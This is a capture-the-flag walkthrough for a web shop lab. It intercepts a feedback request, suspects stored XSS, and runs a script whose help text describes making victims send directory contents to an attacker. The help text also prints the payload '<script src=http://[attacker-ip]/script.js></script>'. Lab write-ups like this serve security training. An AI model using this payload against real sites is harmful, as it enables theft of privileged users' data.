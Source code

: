 If we go to the main page on 8080 :

<img src="../../Flameshots/05e2e53e0fafbb66d648337904fa240c.png" alt="05e2e53e0fafbb66d648337904fa240c.png" width="335" height="335" class="jop-noMdConv">

So we have our shop, now we go in Feedback :

<img src="../../Flameshots/3c8e9e7d95eb8d01d1fde6ed4b633bec.png" alt="3c8e9e7d95eb8d01d1fde6ed4b633bec.png" width="390" height="291" class="jop-noMdConv">

And we have a prompt, let's intercept a request with Caido :

<img src="../../Flameshots/08a55a32e2adbf1de5e743e6f1207b8c.png" alt="08a55a32e2adbf1de5e743e6f1207b8c.png" width="468" height="343" class="jop-noMdConv">

Now we send it over to **Replay :**

<img src="../../Flameshots/2994e97ec7146eeb78125b34fad2a1a8.png" alt="2994e97ec7146eeb78125b34fad2a1a8.png" width="314" height="130" class="jop-noMdConv">

We can click on Send and analyze the Response code:

<img src="../../Flameshots/889269d9dabe785d499320a84c7191a4.png" alt="889269d9dabe785d499320a84c7191a4.png" width="549" height="416" class="jop-noMdConv">

It says '<span style="color: rgb(224, 62, 45);">Thanks for your feedback! It will be <span style="color: rgb(45, 194, 107);">evaluated</span> shortly by our staff<span style="color: rgb(255, 255, 255);">'</span> <span style="color: rgb(255, 255, 255);">so we may think there's some XSS.</span></span>

# Exploit

<span style="color: rgb(224, 62, 45);"><span style="color: rgb(255, 255, 255);">We can try to use Tyler Ramsbey script in JS and it will automatically catch the flag once the victim user click flag.txt :</span></span>

<img src="../../Flameshots/7d021226144879cdd810f3c57a3a764b.png" alt="7d021226144879cdd810f3c57a3a764b.png" width="258" height="238" class="jop-noMdConv">

We download and make it executable with `sudo chmod +x xss-extract.py` and run it :

```
┌──(hax㉿HaxonKali)-[~/Scaricati]
└─$ python3 xss-extract.py -h   
usage: xss-extract.py [-h] -d DIRECTORY -i IP

This script will generate a malicious .js file. When this is used in an XSS attack, it will
cause the victim to navigate to the target directory and send the content to the attacker.
This is useful if the victim is an admin or privileged user with access to sensitive
information. Only use with permission. The XSS payload is <script src=http://[attacker-
ip]/script.js></script>

options:
  -h, --help            show this help message and exit
  -d, --directory DIRECTORY
                        Target Directory
  -i, --ip IP           Attacker IP Address

```
